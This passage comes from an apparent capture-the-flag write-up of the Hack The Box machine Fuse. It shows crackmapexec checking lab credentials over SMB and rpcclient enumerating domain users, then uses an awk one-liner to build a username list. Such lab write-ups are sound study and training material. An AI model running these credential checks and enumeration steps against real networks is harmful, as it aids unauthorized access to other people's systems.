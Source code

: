 ```bash
┌─[rin@parrot]─[/opt/impacket]
└──╼ $crackmapexec smb fuse.htb -u tlavel -p Fabricorp02
SMB 10.129.70.212 445 FUSE [*] Windows Server 2016 Standard 14393 x64 (name:FUSE) (domain:fabricorp.local) (signing:True) (SMBv1:True)
SMB 10.129.70.212 445 FUSE [+] fabricorp.local\tlavel:Fabricorp02
```

The password gets reset every minute on this machine back to Fabricorp01 and so whatever we do to test access, we need to do it straight after resetting the password. There is also a password history kept and so each time the password is changed from Fabricorp01, it needs to be changed to an entirely new password.

We can do that and then log into the machine using rpcclient. Interestingly, rpcclient will also report NT\_STATUS\_PASSWORD\_MUST\_CHANGE if we use the original Fabricorp01

```bash
┌─[rin@parrot]─[~/boxes/Fuse]
└──╼ $rpcclient -U tlavel fuse.htb
Enter WORKGROUP\tlavel's password:
Cannot connect to server. Error was NT_STATUS_PASSWORD_MUST_CHANGE
```

Using enumdomusers to enumerate the users on the box, we get an extended list of users:

```bash
┌─[✗]─[rin@parrot]─[~/boxes/Fuse]
└──╼ $rpcclient -U tlavel fuse.htb
Enter WORKGROUP\tlavel's password:
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[svc-print] rid:[0x450]
user:[bnielson] rid:[0x451]
user:[sthompson] rid:[0x641]
user:[tlavel] rid:[0x642]
user:[pmerton] rid:[0x643]
user:[svc-scan] rid:[0x645]
user:[bhult] rid:[0x1bbd]
user:[dandrews] rid:[0x1bbe]
user:[mberbatov] rid:[0x1db1]
user:[astein] rid:[0x1db2]
user:[dmuir] rid:[0x1db3]
rpcclient $>
```

We can collect all of the users and create a new users file with these users in it called rpc\_users.txt and then just extract the usernames with the command:

```bash
cat rpc_users.txt | awk -F '\\[|]' '{print $2}' > rpc_users2.txt
```

The awk command uses the -F flag to specify the field separator regular expression. We are separating the text between the square bracket \(\[\]\) characters. The '\' is necessary to escape the first \[. If we try and write to the same file, it will end up blank and so that is why we need to create a separate file.
